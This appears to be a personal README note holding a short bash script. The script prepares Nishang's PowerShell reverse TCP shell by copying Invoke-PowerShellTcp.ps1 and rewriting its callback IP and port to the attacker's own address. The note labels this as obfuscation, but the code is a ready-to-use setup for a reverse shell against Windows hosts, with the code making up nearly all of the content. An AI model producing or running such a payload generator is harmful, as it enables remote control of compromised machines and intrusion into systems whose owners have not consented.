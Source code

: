 # script to obfuscate a nishang reverse tcp shell for windows powershell

- concept of `script to obfuscate a nishang reverse tcp shell for windows powershell`
- must have nishang package installed
  - [x] add error handling

```bash
#!/bin/bash

ATTACKER=$(getmyip)
PORT=$1
if [ -z "$PORT" ]; then
  export PORT=4444
fi
cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 nishang.ps1
# take the line, move to end and remove "PS >"
ex -s -c 'g/Invoke.*Tcp -Rev.*192.168.254.226/m$' -c '$s/PS > //' -c wq nishang.ps1
# edit the IP
ex -s -c "\$s/192.168.254.226/$ATTACKER/" -c wq nishang.ps1
# edit the port
ex -s -c "\$s/4444/$PORT/" -c wq nishang.ps1
```

` zet/20230906044835/README.md `

# Related

- [20230906033259](/zet/20230906033259/README.md) functions to copy over and possibly remake as commands
- [20230906033727](/zet/20230906033727/README.md) commands to get ip

Tags:

    #shortcmd
